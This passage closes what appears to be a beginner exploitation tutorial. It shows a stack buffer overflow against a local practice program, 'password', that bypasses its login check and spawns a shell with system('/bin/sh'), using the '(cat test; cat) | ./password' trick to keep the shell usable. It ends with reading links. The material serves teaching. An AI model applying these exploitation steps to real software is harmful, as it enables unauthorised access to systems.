 GDB can sometimes be a little bit glitchy when it comes to spawning shells, so we're unable to type commands to the program even though the call to `system("/bin/sh")` was successful. Let's try running this code outside of GDB.

```sh
$ ./password < test
Enter the password: Invalid password.
You entered in the correct password!
zsh: segmentation fault  ./password < test
```

We're still unable to spawn a shell from this. The reason that no shell is being spawned is because we have used the input redirector to redirect input for `STDIN` to come from the test file instead of from the keyboard. We can use a little trick with the `cat` command to get around this annoying situation.

```sh
$ (cat test; cat) | ./password

Enter the password: Invalid password.
You entered in the correct password!
ls
password  password.c  README.md  test
echo "Wow the buffer overflow worked!!!"
Wow the buffer overflow worked!!!
```

Congratulations! You have successfully conducted your first buffer overflow! Not only were you able to bypass the login system for this program, but you were also able to spawn a shell that gave you complete control over the system!

## Practice:
- TODO: Get a TCTF challenge here.

## More Resources:
- [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html)
- [Stack Frame](https://en.citizendium.org/wiki/Stack_frame)
- [x86_64 Calling Convention](https://aaronbloomfield.github.io/pdr/book/x86-64bit-ccc-chapter.pdf)
- [GDB User Manual](https://sourceware.org/gdb/current/onlinedocs/gdb/)
- [GEF Documentation](https://gef.readthedocs.io/en/master/)

## Creators

**Nihaal Prasad**

Enjoy :metal:

